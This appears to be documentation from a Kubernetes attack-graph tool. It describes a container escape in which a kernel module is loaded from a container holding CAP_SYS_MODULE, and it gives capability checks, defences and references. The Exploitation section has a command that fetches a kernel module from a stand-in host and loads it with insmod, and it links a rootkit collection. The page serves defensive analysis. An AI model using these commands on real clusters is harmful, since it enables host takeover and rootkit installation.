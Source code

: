 # CE_MODULE_LOAD

Load a kernel module from within an overprivileged container to breakout into the node.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

Container isolation mechanisms are restricted to user-space execution. If an attacker gains kernel level execution via loading a kernel module or exploiting a kernel vulnerability, all isolation mechanisms can be bypassed. If a container is run with `--privileged` or if `CAP_SYS_MODULE` is explicitly enabled via the `securityContext` setting, kernel modules can be loaded from within the container, leading to a trivial and powerful container escape.

## Prerequisites

Execution within a container process with the `CAP_SYS_MODULE` capability enabled.

See the [example pod spec](../../test/setup/test-cluster/attacks/CE_MODULE_LOAD.yaml).

## Checks

From within a running container, determine whether it is running with `CAP_SYS_MODULE`:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_MODULE
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_module
```

## Exploitation

Download a pre-compiled kernel module suitable for the target OS/architecture (see [examples](https://github.com/milabs/awesome-linux-rootkits)) and load from within the container:

```bash
curl -O exploit.delivery/bad.ko
insmod bad.ko
```

## Defences

### Monitoring

+ Monitor for unfamiliar kernel modules loaded or kernel modules loaded from within a running pod which should both be high-fidelity signals of malicious activity.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [EscapeModuleLoad](../../pkg/kubehound/graph/edge/escape_module_load.go)

## References:

+ [Compendium Of Container Escapes](https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf)
+ [Linux Privilege Escalation - Exploiting Capabilities - StefLan's Security Blog](https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/)
+ [Module Load Breakout](https://raesene.github.io/blog/2023/08/06/fun-with-privileged-container-breakout/)